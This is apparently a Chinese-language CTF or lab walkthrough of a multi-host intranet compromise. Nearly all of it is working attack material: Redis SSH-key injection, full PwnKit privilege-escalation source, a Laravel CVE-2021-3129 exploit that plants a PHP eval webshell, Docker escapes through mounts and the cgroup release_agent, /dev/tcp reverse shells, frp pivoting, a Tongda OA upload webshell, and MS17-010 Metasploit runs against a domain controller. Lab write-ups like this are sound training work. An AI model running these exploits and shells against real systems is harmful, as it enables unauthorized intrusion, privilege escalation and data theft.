

# README

## 信息收集

### nmap

```bash
sudo nmap -p-  --min-rate 10000 10.81.2.231
Password:
Starting Nmap 7.93 ( https://nmap.org ) at 2023-10-13 12:37 CST
Nmap scan report for 10.81.2.231
Host is up (0.15s latency).
Not shown: 49700 closed tcp ports (reset), 15832 filtered tcp ports (no-response)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
81/tcp open  hosts2-ns

Nmap done: 1 IP address (1 host up) scanned in 24.58 seconds

```

```bash
sudo nmap -p 22,80,81 -sC -sV 10.81.2.231
Starting Nmap 7.93 ( https://nmap.org ) at 2023-10-13 12:38 CST
Nmap scan report for 10.81.2.231
Host is up (0.028s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 c32db2d3a05fdbbbf6aaa48e79ba3554 (RSA)
|   256 ceaebd38956e5ba639869dfd4953dee0 (ECDSA)
|_  256 3a34c76d9dca4f217109fd5b566b0351 (ED25519)
80/tcp open  http    nginx 1.14.0 (Ubuntu)
|_http-server-header: nginx/1.14.0 (Ubuntu)
|_http-title: Did not follow redirect to https://1145.link
81/tcp open  http    nginx 1.14.0 (Ubuntu)
|_http-server-header: nginx/1.14.0 (Ubuntu)
|_http-title: Laravel
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

6379/tcp open  redis   Redis key-value store 2.8.17


Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 54.62 seconds

```


## redis

6379redis有未授权，往/home/web下面写ssh：

```bash
(echo -e "\n\n"; cat id_rsa.pub; echo -e "\n\n") > 1.txt
cat 1.txt | redis-cli -h 10.81.2.231 -x set tide
redis-cli -h 10.81.2.231
CONFIG SET dir /home/web/.ssh
CONFIG SET dbfilename "authorized_keys"
save
```


### web用户

读取flag：

```bash
cat flag
flag1{ba9e642e-d4e7-49c4-a09f-d513492cb001}
```

查一下suid：

```bash
find / -perm -u=s -type f 2>/dev/null
```

有psexec，之间提权就行：

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

char *shell =
        "#include <stdio.h>\n"
        "#include <stdlib.h>\n"
        "#include <unistd.h>\n\n"
        "void gconv() {}\n"
        "void gconv_init() {\n"
        "       setuid(0); setgid(0);\n"
        "       seteuid(0); setegid(0);\n"
        "       system(\"export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin; /bin/sh\");\n"
        "       exit(0);\n"
        "}";

int main(int argc, char *argv[]) {
        FILE *fp;
        system("mkdir -p 'GCONV_PATH=.'; touch 'GCONV_PATH=./pwnkit'; chmod a+x 'GCONV_PATH=./pwnkit'");
        system("mkdir -p pwnkit; echo 'module UTF-8// PWNKIT// pwnkit 1' > pwnkit/gconv-modules");
        fp = fopen("pwnkit/pwnkit.c", "w");
        fprintf(fp, "%s", shell);
        fclose(fp);
        system("gcc pwnkit/pwnkit.c -o pwnkit/pwnkit.so -shared -fPIC");
        char *env[] = { "pwnkit", "PATH=GCONV_PATH=.", "CHARSET=PWNKIT", "SHELL=pwnkit", NULL };
        execve("/usr/bin/pkexec", (char*[]){NULL}, env);
}

```

```bash
# whoami
root
```


### root用户

同样给root创建ssh登录：

```bash


ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQCxowTsVd6bDf/RGEljXqawjmYRHojXH6i83CeeM1xDLmgBYdo2dVCaaZNtBFacwxDjyCY2NmEaJYTEtCnOeVF3tpFlVPNQlr5C54GMtpGyJuUWDyAoYJSOO0QX9WYdFafDnGj+2F0fdMECh7pAJUzhBnsB3R3Fl6aETSOZjgvGQcWIIX7y4NTeztJ1PWpwnlCWlhVmqaLgbXs8N2Vlkyv7s8uSGe7RLfwqpF5r2PTfBL3aQOPFO4jk8UNW+tQu5bCqaiFiOuqEOD4+UZO3UaoKMfQxfpR3HLzJc2T5fNpdCjHtmOCGONAOms7rTwXHCLldBgRRTSw6dA7t03DUNBIVTUfiVhnbGYIQNYoehVqWiSrmg1eRsJOfZojBAWe6Yu7FbEGRij2FsGZhoWAM2Hjfehz2KQ2pxiCS4dZLIdyowYgg94UP6ACW4gTPVC0rVY6k7MAy3J80YSLSRiy+RFprGGr6ZfS9erGfpXj7vaeroN8+P38IjH+vH7TTZ/cacpE= feng@fengs-MacBook-Pro.local


```


拿sftp上传fscan。

看一下网段：

```bash
# ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host
       valid_lft forever preferred_lft forever
2: ens18: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP group default qlen 1000
    link/ether be:a2:85:01:38:70 brd ff:ff:ff:ff:ff:ff
    inet 192.168.1.8/24 brd 192.168.1.255 scope global dynamic ens18
       valid_lft 4291sec preferred_lft 4291sec
    inet6 fe80::bca2:85ff:fe01:3870/64 scope link
       valid_lft forever preferred_lft forever
3: ens19: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP group default qlen 1000
    link/ether 7e:6d:ee:14:7b:1d brd ff:ff:ff:ff:ff:ff
    inet 192.168.52.10/24 brd 192.168.52.255 scope global ens19
       valid_lft forever preferred_lft forever
    inet6 fe80::7c6d:eeff:fe14:7b1d/64 scope link
       valid_lft forever preferred_lft forever
```


```bash
./fscan -h 192.168.1.8/24

   ___                              _
  / _ \     ___  ___ _ __ __ _  ___| | __
 / /_\/____/ __|/ __| '__/ _` |/ __| |/ /
/ /_\\_____\__ \ (__| | | (_| | (__|   <
\____/     |___/\___|_|  \__,_|\___|_|\_\
                     fscan version: 1.8.2
start infoscan
(icmp) Target 192.168.1.8     is alive
(icmp) Target 192.168.1.1     is alive
[*] Icmp alive hosts len is: 2
192.168.1.1:443 open
192.168.1.8:81 open
192.168.1.1:80 open
192.168.1.8:80 open
192.168.1.8:22 open
192.168.1.8:6379 open
[*] alive ports len is: 6
start vulscan
[+] Redis:192.168.1.8:6379 unauthorized file:/tmp/hello
[+] Redis:192.168.1.8:6379 like can write /var/spool/cron/
[*] WebTitle: http://192.168.1.8        code:301 len:194    title:301 Moved Permanently 跳转url: https://1145.link
[*] WebTitle: http://192.168.1.1        code:302 len:138    title:302 Found 跳转url: http://192.168.1.1/login
[*] WebTitle: http://192.168.1.1/login  code:200 len:1720   title:None
[*] WebTitle: https://192.168.1.1       code:302 len:138    title:302 Found 跳转url: https://192.168.1.1/login
[*] WebTitle: https://192.168.1.1/login code:200 len:1720   title:None
[*] WebTitle: http://192.168.1.8:81     code:200 len:17474  title:Laravel
[+] InfoScan:http://192.168.1.8:81     [Laravel]
```

192.168.1.8应该就是目前的这个机子，81端口是larvel。

```bash
root@ubuntu:~/.log# ./fscan -h 192.168.52.10/24

   ___                              _
  / _ \     ___  ___ _ __ __ _  ___| | __
 / /_\/____/ __|/ __| '__/ _` |/ __| |/ /
/ /_\\_____\__ \ (__| | | (_| | (__|   <
\____/     |___/\___|_|  \__,_|\___|_|\_\
                     fscan version: 1.8.2
start infoscan
(icmp) Target 192.168.52.10   is alive
(icmp) Target 192.168.52.20   is alive
[*] Icmp alive hosts len is: 2
192.168.52.10:80 open
192.168.52.10:81 open
192.168.52.20:22 open
192.168.52.10:22 open
192.168.52.20:8000 open
192.168.52.10:6379 open
[*] alive ports len is: 6
start vulscan
[+] Redis:192.168.52.10:6379 unauthorized file:/tmp/hello
[+] Redis:192.168.52.10:6379 like can write /var/spool/cron/
[*] WebTitle: http://192.168.52.10      code:301 len:194    title:301 Moved Permanently 跳转url: https://1145.link
[*] WebTitle: http://192.168.52.10:81   code:200 len:17474  title:Laravel
[+] InfoScan:http://192.168.52.10:81   [Laravel]
[*] WebTitle: http://192.168.52.20:8000 code:200 len:17474  title:Laravel
[+] InfoScan:http://192.168.52.20:8000 [Laravel]
```

弄frp：

```bash
[common]
server_addr = 10.129.0.29
server_port = 37000

[windows]
type = tcp
#local_ip = 10.10.10.103
#local_port = 88
remote_port = 37600
plugin = socks5
```

```bash
./frpc -c frpc.ini
```


192.168.1.1：

```bash
Host is up (0.061s latency).
Not shown: 9993 closed tcp ports (conn-refused)
PORT    STATE SERVICE
80/tcp  open  http
443/tcp open  https
684/tcp open  corba-iiop-ssl
685/tcp open  mdc-portmapper
686/tcp open  hcp-wismar
689/tcp open  nmap
700/tcp open  epp
```


## laravel

Rce:

```bash
python3.10 CVE-2021-3129.py --host="http://10.81.2.231:81/" --force --chain="Laravel/RCE8"

[?] Please enter a command to execute: execute echo "<?php eval(\$_POST[0]);?>" > /var/www/html/.feng.php
```


命令执行

```BASH
0=system('cd /home/jobs/;echo "cat /root/.bash_history" > /tmp/ps;chmod 777 /tmp/ps;export PATH=/tmp:%24PATH;echo %24PATH;./shell;');
```

宿主机逃逸：

```bash
0=system('cd /home/jobs/;echo "mkdir /tmp/mount;mount /dev/sda1 /tmp/mount;cat /tmp/mount/home/ubuntu/flag;rm -rf /tmp/mount" > /tmp/ps;chmod 777 /tmp/ps;export PATH=/tmp:%24PATH;echo %24PATH;./shell;rm /tmp/ps;');
```


ubuntu用户下面有很多东西：

```bash

total 164
drwxr-xr-x 19 ubuntu ubuntu 4096 Sep 28 02:42 .
drwxr-xr-x  3 root   root   4096 Jan 19  2020 ..
-rw-------  1 ubuntu ubuntu 3180 Sep 28 02:32 .ICEauthority
-rw-------  1 ubuntu ubuntu   51 Sep 28 02:32 .Xauthority
-rw-------  1 ubuntu ubuntu  104 Sep 28 02:42 .bash_history
-rw-r--r--  1 ubuntu ubuntu  220 Jan 19  2020 .bash_logout
-rw-r--r--  1 ubuntu ubuntu 3637 Jan 19  2020 .bashrc
drwx------ 13 ubuntu ubuntu 4096 Feb 25  2021 .cache
drwx------  3 ubuntu ubuntu 4096 Jan 22  2020 .compiz
drwx------ 16 ubuntu ubuntu 4096 Feb 25  2021 .config
drwx------  3 root   root   4096 Feb 25  2021 .dbus
-rw-r--r--  1 ubuntu ubuntu   25 Jan 20  2020 .dmrc
drwx------  3 ubuntu ubuntu 4096 Sep 28 02:32 .gconf
drwx------  2 root   root   4096 Feb 25  2021 .gvfs
drwx------  3 ubuntu ubuntu 4096 Jan 20  2020 .local
drwxrwxr-x  2 ubuntu ubuntu 4096 Jan 20  2020 .pip
-rw-r--r--  1 ubuntu ubuntu  675 Jan 19  2020 .profile
-rw-rw-r--  1 ubuntu ubuntu    5 Jan 21  2020 .rediscli_history
drwx------  2 ubuntu ubuntu 4096 Jan 23  2020 .ssh
-rw-------  1 root   root   4156 Jan 21  2020 .viminfo
-rw-------  1 ubuntu ubuntu  774 Sep 28 02:32 .xsession-errors
-rw-------  1 ubuntu ubuntu 1494 Sep 28 02:31 .xsession-errors.old
drwxr-xr-x  2 ubuntu ubuntu 4096 Feb 25  2021 Desktop
-rwxrwxrwx  1 ubuntu ubuntu  703 Feb 25  2021 Dockerfile
-rw-rw-r--  1 ubuntu ubuntu  703 Feb 25  2021 Dockerfile~
drwxr-xr-x  2 ubuntu ubuntu 4096 Jan 20  2020 Documents
drwxr-xr-x  2 ubuntu ubuntu 4096 Jan 20  2020 Downloads
-rwxr-xr-x  1 root   root    250 Feb 25  2021 KdwGEmVm
drwxr-xr-x  2 ubuntu ubuntu 4096 Jan 20  2020 Music
drwxr-xr-x  2 ubuntu ubuntu 4096 Jan 20  2020 Pictures
drwxr-xr-x  2 ubuntu ubuntu 4096 Jan 20  2020 Public
drwxr-xr-x  2 ubuntu ubuntu 4096 Jan 20  2020 Templates
drwxr-xr-x  2 ubuntu ubuntu 4096 Jan 20  2020 Videos
-rw-r--r--  1 root   root     18 Jul  4 05:39 dump.rdb
-rw-r--r--  1 ubuntu ubuntu 8980 Jan 19  2020 examples.desktop
-rw-rw-r--  1 ubuntu ubuntu   44 Jul  4 06:11 flag
-rw-rw-r--  1 ubuntu ubuntu   26 Feb 25  2021 password
-rwxr-xr-x  1 root   root    250 Feb 25  2021 x6pqGcQj

```


`.bash_history`:

```
sudo docker ps sudo docker exec -it 8e1 bash sudo rm /root/.bash_history rm /home/ubuntu/.bash_history
```

password文件提供了一些用户名和密码：

```bash
web/web2021
ubuntu/ubuntu
```

dockerfile:

```bash

FROM php:7.4-apache
RUN set -ex \
    && apt-get update \
    && apt-get install -y --no-install-recommends unzip \
    && curl -#L -o /usr/local/bin/composer https://github.com/composer/composer/releases/download/1.10.19/composer.phar \
    && chmod +x /usr/local/bin/composer
RUN set -ex \
    && cd /var/www \
    && rm -rf html \
    && composer config -g repo.packagist composer https://mirrors.aliyun.com/composer/ \
    && composer create-project laravel/laravel . "v8.4.2" \
    && sed -i -E 's|"facade/ignition": ".+?"|"facade/ignition": "2.5.1"|g' composer.json \
    && composer update \
    && mv public html
RUN set -ex \
    && chown www-data:www-data -R /var/www \
    && a2enmod rewrite
```


弹个shell：

```bash
0=system('cd /home/jobs/;echo "mkdir /tmp/mount;mount /dev/sda1 /tmp/mount;chroot /tmp/mount bash -c \"bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.52.10%2F39555%200%3E%261\" " > /tmp/ps;chmod 777 /tmp/ps;export PATH=/tmp:%24PATH;./shell;');&1=chroot /tmp/mount bash -c \"top --version\"
```

执行ip -a找到如下网段

```bash
172.17.0.2/16
```


传fscan不能直接扫，shell有问题。

```bash
0=system('cd /home/jobs/;echo "mkdir /tmp/mount;mount /dev/sda1 /tmp/mount;bash -c \"bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.52.10%2F39555%200%3E%261\" " > /tmp/ps;chmod 777 /tmp/ps;export PATH=/tmp:%24PATH;./shell;');&1=chroot /tmp/mount bash -c \"top --version\"
```

不chroot的shell就能执行。

```bash
./fscan_amd64 -h 172.17.0.2/16

   ___                              _
  / _ \     ___  ___ _ __ __ _  ___| | __
 / /_\/____/ __|/ __| '__/ _` |/ __| |/ /
/ /_\\_____\__ \ (__| | | (_| | (__|   <
\____/     |___/\___|_|  \__,_|\___|_|\_\
                     fscan version: 1.8.2
start infoscan
(icmp) Target 172.17.0.2      is alive
(icmp) Target 172.17.0.1      is alive
[*] LiveTop 172.17.0.0/16    段存活数量为: 2
[*] LiveTop 172.17.0.0/24    段存活数量为: 2
[*] Icmp alive hosts len is: 2
172.17.0.1:8000 open
172.17.0.2:80 open
172.17.0.1:22 open
[*] alive ports len is: 3
start vulscan
[*] WebTitle: http://172.17.0.2         code:200 len:17474  title:Laravel
[*] WebTitle: http://172.17.0.1:8000    code:200 len:17474  title:Laravel
[+] InfoScan:http://172.17.0.2         [Laravel]
[+] InfoScan:http://172.17.0.1:8000    [Laravel]
[+] http://172.17.0.2 poc-yaml-laravel-cve-2021-3129
[+] http://172.17.0.1:8000 poc-yaml-laravel-cve-2021-3129
```

似乎不对。

应该在宿主机里执行ip a，而不是在docker里。


```bash
#!/bin/bash

set -uex

mkdir /tmp/cgrp && mount -t cgroup -o memory cgroup /tmp/cgrp && mkdir /tmp/cgrp/x
 
echo 1 > /tmp/cgrp/x/notify_on_release
host_path=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
echo "$host_path/cmd" > /tmp/cgrp/release_agent
 
echo '#!/bin/sh' > /cmd
echo "ip a > $host_path/output" >> /cmd
chmod a+x /cmd
 
sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs"

sleep 2
cat "/output"
```

获得：

```bash
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UP group default qlen 1000
    link/ether b6:24:b7:c5:df:f8 brd ff:ff:ff:ff:ff:ff
    inet 192.168.52.20/24 brd 192.168.52.255 scope global eth0
       valid_lft forever preferred_lft forever
    inet6 fe80::b424:b7ff:fec5:dff8/64 scope link
       valid_lft forever preferred_lft forever
3: eth1: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UP group default qlen 1000
    link/ether 62:ad:4d:14:40:33 brd ff:ff:ff:ff:ff:ff
    inet 192.168.93.10/24 brd 192.168.93.255 scope global eth1
       valid_lft forever preferred_lft forever
    inet6 fe80::60ad:4dff:fe14:4033/64 scope link
       valid_lft forever preferred_lft forever
4: br-05384b1b0df2: <NO-CARRIER,BROADCAST,MULTICAST,UP> mtu 1500 qdisc noqueue state DOWN group default
    link/ether 02:42:d4:b8:dc:85 brd ff:ff:ff:ff:ff:ff
    inet 172.18.0.1/16 brd 172.18.255.255 scope global br-05384b1b0df2
       valid_lft forever preferred_lft forever
5: br-1d665e13ee58: <NO-CARRIER,BROADCAST,MULTICAST,UP> mtu 1500 qdisc noqueue state DOWN group default
    link/ether 02:42:72:fa:8e:bc brd ff:ff:ff:ff:ff:ff
    inet 172.20.0.1/16 brd 172.20.255.255 scope global br-1d665e13ee58
       valid_lft forever preferred_lft forever
6: docker0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default
    link/ether 02:42:30:da:f4:8d brd ff:ff:ff:ff:ff:ff
    inet 172.17.0.1/16 brd 172.17.255.255 scope global docker0
       valid_lft forever preferred_lft forever
    inet6 fe80::42:30ff:feda:f48d/64 scope link
       valid_lft forever preferred_lft forever
7: br-f0d07941b332: <NO-CARRIER,BROADCAST,MULTICAST,UP> mtu 1500 qdisc noqueue state DOWN group default
    link/ether 02:42:ab:2b:21:da brd ff:ff:ff:ff:ff:ff
    inet 172.19.0.1/16 brd 172.19.255.255 scope global br-f0d07941b332
       valid_lft forever preferred_lft forever
9: veth4793126@if8: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue master docker0 state UP group default
    link/ether 7a:b7:6e:f2:73:de brd ff:ff:ff:ff:ff:ff
    inet6 fe80::78b7:6eff:fef2:73de/64 scope link
       valid_lft forever preferred_lft forever
```

```bash
./fscan_amd64 -h 172.19.0.1/16 -nobr -nopoc
```


### 192.168.52.20/24

```bash

./fscan_amd64 -h 192.168.52.20/24 -nobr -nopoc

   ___                              _
  / _ \     ___  ___ _ __ __ _  ___| | __
 / /_\/____/ __|/ __| '__/ _` |/ __| |/ /
/ /_\\_____\__ \ (__| | | (_| | (__|   <
\____/     |___/\___|_|  \__,_|\___|_|\_\
                     fscan version: 1.8.2
start infoscan
(icmp) Target 192.168.52.10   is alive
(icmp) Target 192.168.52.20   is alive
[*] Icmp alive hosts len is: 2
192.168.52.10:81 open
192.168.52.10:80 open
192.168.52.20:22 open
192.168.52.10:22 open
192.168.52.20:8000 open
192.168.52.10:6379 open
192.168.52.10:8888 open
[*] alive ports len is: 7
start vulscan
[*] WebTitle: http://192.168.52.10      code:301 len:194    title:301 Moved Permanently 跳转url: https://1145.link
[+] Redis:192.168.52.10:6379 unauthorized file://ss
[+] Redis:192.168.52.10:6379 like can write /var/spool/cron/
[*] WebTitle: http://192.168.52.20:8000 code:200 len:17474  title:Laravel
[*] WebTitle: http://192.168.52.10:81   code:200 len:17474  title:Laravel
[+] InfoScan:http://192.168.52.20:8000 [Laravel]
[+] InfoScan:http://192.168.52.10:81   [Laravel]
已完成 7/7
```

没扫出来有用的。


问了提示，所以还有一个站需要禁ping才能访问到：

```bash
ubuntu@ubuntu:/tmp$ ./fscan_amd64 -h 192.168.52.20/24 -nobr -nopoc -np

   ___                              _
  / _ \     ___  ___ _ __ __ _  ___| | __
 / /_\/____/ __|/ __| '__/ _` |/ __| |/ /
/ /_\\_____\__ \ (__| | | (_| | (__|   <
\____/     |___/\___|_|  \__,_|\___|_|\_\
                     fscan version: 1.8.2
start infoscan
192.168.52.20:22 open
192.168.52.10:22 open
192.168.52.30:80 open
192.168.52.10:80 open
192.168.52.10:81 open
192.168.52.10:6379 open
192.168.52.20:8000 open
192.168.52.10:8888 open
[*] alive ports len is: 8
start vulscan
[*] WebTitle: http://192.168.52.10      code:301 len:194    title:301 Moved Permanently 跳转url: https://1145.link
[+] Redis:192.168.52.10:6379 unauthorized file://ss
[+] Redis:192.168.52.10:6379 like can write /var/spool/cron/
[*] WebTitle: http://192.168.52.30      code:200 len:10065  title:通达OA网络智能办公系统
[+] InfoScan:http://192.168.52.30      [通达OA]
[*] WebTitle: http://192.168.52.20:8000 code:200 len:17474  title:Laravel
[*] WebTitle: http://192.168.52.10:81   code:200 len:17474  title:Laravel
[+] InfoScan:http://192.168.52.20:8000 [Laravel]
[+] InfoScan:http://192.168.52.10:81   [Laravel]
已完成 8/8
[*] 扫描结束,耗时: 3m50.121911432s
```

#### 192.168.52.30

是个通达OA。

利用下面的文件可以看版本：

```
inc/expired.php
inc/reg_trial.php
inc\reg_trial_submit.php
```

得到：

```

Office Anywhere 11.3版 试用版过期
Web服务版本号：11.3.200106
内部版本号：11.3.200106
版权所有：北京通达信科科技有限公司
OA用户数：17
安装时间：2021-02-22 18:03:44
系统时间：2023-10-14 13:48:41
```

版本是11.3，有任意用户登录的洞。

可以产生cookie但是后台似乎登不了，因为过期了。

而且网站非常卡，前提是用浏览器登录，用exp打的时候一点不卡。

只能去找前台洞而且得rce。

翻了一下通达oa的洞，发现他的洞大部分都是直接覆盖前面版本的，比如查出来是什么11.8 xxx rce，实际上11.x-11.8都能打。

不考虑一些很难查找到的0day的话，拿工具扫描一下：

```bash
proxychains4 ./TongdaScan_go  scan -u  http://192.168.52.30/
[proxychains] config file found: /etc/proxychains.conf
[proxychains] preloading /usr/local/lib/libproxychains4.dylib
[proxychains] DLL init: proxychains-ng 4.16
[proxychains] Strict chain  ...  127.0.0.1:37600  ...  192.168.52.30:80  ...  OK
[Td01] 不存在get_contactlist.php 敏感信息泄漏
[Td02] 不存在video_file.php 任意文件下载
[Td03] 可能存在action_upload.php 任意文件上传，请执行Exp模块进行验证
[Td04] 不存在v2017 login_code.php 任意用户登录
[Td05] 存在v11 login_code.php 任意用户登录，请执行Exp模块进行验证
[Td06] 可能存在v11.5 swfupload_new.php SQL注入，请执行Exp模块进行验证
[Td07] 可能存在v11.6 report_bi.func.php SQL注入，请执行Exp模块进行验证
[Td08] 可能存在v11.8 api.ali.php 任意文件上传，请执行Exp模块进行验证
[Td09] 不存在v11.8 gateway.php 任意文件包含（EXP可RCE）
[Td10] 不存在v11.6 print.php未授权删除auth.inc.php导致RCE
```

尝试action_upload.php 任意文件上传：

```bash
proxychains4 ./TongdaScan_go  exp -u  http://192.168.52.30/ -i Td03
[proxychains] config file found: /etc/proxychains.conf
[proxychains] preloading /usr/local/lib/libproxychains4.dylib
[proxychains] DLL init: proxychains-ng 4.16
[proxychains] Strict chain  ...  127.0.0.1:37600  ...  192.168.52.30:80  ...  OK
[Td03] 存在action_upload.php 任意文件上传
已上传哥斯拉马
密码pass0123
密钥key
加密器PHP_XOR_BASE64
Webshell地址：http://192.168.52.30/tcmd.php
```


上哥斯拉：




### 192.168.93.10/24

目标应该是192.168.93.40和192.168.93.30

```bash
fscan -h 192.168.93.10/24

   ___                              _
  / _ \     ___  ___ _ __ __ _  ___| | __
 / /_\/____/ __|/ __| '__/ _` |/ __| |/ /
/ /_\\_____\__ \ (__| | | (_| | (__|   <
\____/     |___/\___|_|  \__,_|\___|_|\_\
                     fscan version: 1.8.2
start infoscan
(icmp) Target 192.168.93.10   is alive
(icmp) Target 192.168.93.30   is alive
(icmp) Target 192.168.93.40   is alive
[*] Icmp alive hosts len is: 3
192.168.93.30:88 open
192.168.93.10:8000 open
192.168.93.40:445 open
192.168.93.30:445 open
192.168.93.40:139 open
192.168.93.30:139 open
192.168.93.40:135 open
192.168.93.30:135 open
192.168.93.10:22 open
[*] alive ports len is: 9
start vulscan
[*] NetInfo:
[*]192.168.93.40
   [->]PC2
   [->]169.254.129.186
   [->]192.168.93.40
[*] NetInfo:
[*]192.168.93.30
   [->]DC
   [->]192.168.93.30
[+] 192.168.93.40	MS17-010	(Windows 7 Professional 7601 Service Pack 1)
[+] 192.168.93.30	MS17-010	(Windows Server 2012 R2 Datacenter 9600)
[*] NetBios: 192.168.93.30   [+]DC DC.whoamianony.org            Windows Server 2012 R2 Datacenter 9600
```

下载文件：

```bash
curl http://192.168.52.10:39555/frp.zip > frp
```


机器1:

frps.ini:

```bash
[common]
bind_addr = 192.168.52.10
bind_port = 37000

```

frpc.ini:

```bash
[common]
tls_enable = true
server_addr = 10.129.0.18
server_port = 37000
[http_proxy]
type = tcp
remote_port = 37600
#plugin = socks5，不能加上这个
#相较于一级代理，增加如下两个配置
local_ip = 192.168.52.10
local_port = 37600

```


机器2:

frpc.ini:

```bash
[common]
server_addr = 192.168.52.10
server_port = 37000
[http_proxy]
type = tcp
remote_port = 37600
plugin = socks5

```


启动二层代理后设置msf：

```bash
setg Proxies socks5:127.0.0.1:37600
set ReverseAllowProxy true
```


#### 192.168.93.30

打`admin/smb/ms17_010_command`模块：

```bash
set COMMAND 'type c:\users\administrator\desktop\flag.txt'
exploit
```


#### 192.168.93.40

用`windows/smb/ms17_010_eternalblue`模块。

payload用`windows/x64/meterpreter/bind_tcp`：

```bash
msf6 exploit(windows/smb/ms17_010_eternalblue) > show options

Module options (exploit/windows/smb/ms17_010_eternalblue):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   RHOSTS         192.168.93.40    yes       The target host(s), see https://docs.metasploit.com/docs/using-metasplo
                                             it/basics/using-metasploit.html
   RPORT          445              yes       The target port (TCP)
   SMBDomain                       no        (Optional) The Windows domain to use for authentication. Only affects W
                                             indows Server 2008 R2, Windows 7, Windows Embedded Standard 7 target ma
                                             chines.
   SMBPass                         no        (Optional) The password for the specified username
   SMBUser                         no        (Optional) The username to authenticate as
   VERIFY_ARCH    false            yes       Check if remote architecture matches exploit Target. Only affects Windo
                                             ws Server 2008 R2, Windows 7, Windows Embedded Standard 7 target machin
                                             es.
   VERIFY_TARGET  false            yes       Check if remote OS matches exploit Target. Only affects Windows Server
                                             2008 R2, Windows 7, Windows Embedded Standard 7 target machines.


Payload options (windows/x64/meterpreter/bind_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LPORT     39478            yes       The listen port
   RHOST     192.168.93.40    no        The target address


Exploit target:

   Id  Name
   --  ----
   0   Automatic Target


View the full module info with the info, or info -d command.

```


```bash
meterpreter > search -f flag.txt
Found 1 result...
=================

Path                                          Size (bytes)  Modified (UTC)
----                                          ------------  --------------
c:\Users\moretz.WHOAMIANONY\Desktop\flag.txt  43            2023-07-04 21:19:00 +0800

meterpreter > cat 'c:\Users\moretz.WHOAMIANONY\Desktop\flag.txt'
flag4{71c59224-ac58-0042-ea1d-f3eef5776499}meterpreter >
```

看一下ipconfig：

```bash
meterpreter > ipconfig

Interface  1
============
Name         : Software Loopback Interface 1
Hardware MAC : 00:00:00:00:00:00
MTU          : 4294967295
IPv4 Address : 127.0.0.1
IPv4 Netmask : 255.0.0.0
IPv6 Address : ::1
IPv6 Netmask : ffff:ffff:ffff:ffff:ffff:ffff:ffff:ffff


Interface 12
============
Name         : Microsoft ISATAP Adapter
Hardware MAC : 00:00:00:00:00:00
MTU          : 1280
IPv6 Address : fe80::5efe:a9fe:81ba
IPv6 Netmask : ffff:ffff:ffff:ffff:ffff:ffff:ffff:ffff


Interface 15
============
Name         : Microsoft ISATAP Adapter #2
Hardware MAC : 00:00:00:00:00:00
MTU          : 1280
IPv6 Address : fe80::5efe:c0a8:5d28
IPv6 Netmask : ffff:ffff:ffff:ffff:ffff:ffff:ffff:ffff


Interface 22
============
Name         : Npcap Loopback Adapter
Hardware MAC : 02:00:4c:4f:4f:50
MTU          : 1500
IPv4 Address : 169.254.129.186
IPv4 Netmask : 255.255.0.0
IPv6 Address : fe80::b461:ccad:e30f:81ba
IPv6 Netmask : ffff:ffff:ffff:ffff::


Interface 24
============
Name         : Intel(R) PRO/1000 MT Network Connection #3
Hardware MAC : 1e:fb:4e:c0:46:24
MTU          : 1500
IPv4 Address : 192.168.93.40
IPv4 Netmask : 255.255.255.0
IPv6 Address : fe80::1d89:6914:9d47:68e4
